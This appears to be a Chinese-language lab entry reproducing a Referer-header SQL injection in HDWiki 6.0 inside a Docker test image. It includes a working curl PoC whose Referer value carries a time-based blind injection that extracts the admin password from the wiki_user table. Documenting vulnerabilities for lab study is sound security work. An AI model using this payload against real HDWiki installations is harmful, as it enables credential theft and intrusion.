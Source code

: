 ## HDWiki v6.0 referer注入漏洞

测试镜像

* src/hdwiki/6.0

要求

* PHP < 5.4，开启magic_quote_gpc

影响版本

* hdwiki <= 6.0

参考链接

* [HDWiki v6.0最新版referer注入漏洞](http://www.freebuf.com/vuls/170337.html)

Poc

访问主页并使用任意账号，如admin/admin123登录，在浏览器控制台查看document.cookie获取hd_auth字段。

使用以下命令，将cookie设为获取到的hd_auth，可触发延迟注入。

```shell
curl --cookie "hd_auth=60299rIaUipUYt%2FHhrYjcSBFt%2FDa29IGvtmv9WUFOeC3U%2B4plq90CRpoGfua3Bw3Uj8AyI4h7ZO%2Bz%2BWIQ6LE" --referer "' where if((substr((select password from wiki_user where username='admin'),1,1))!='g',sleep(3),0)#"  "http://docker-ip地址/index.php?user-login"
```

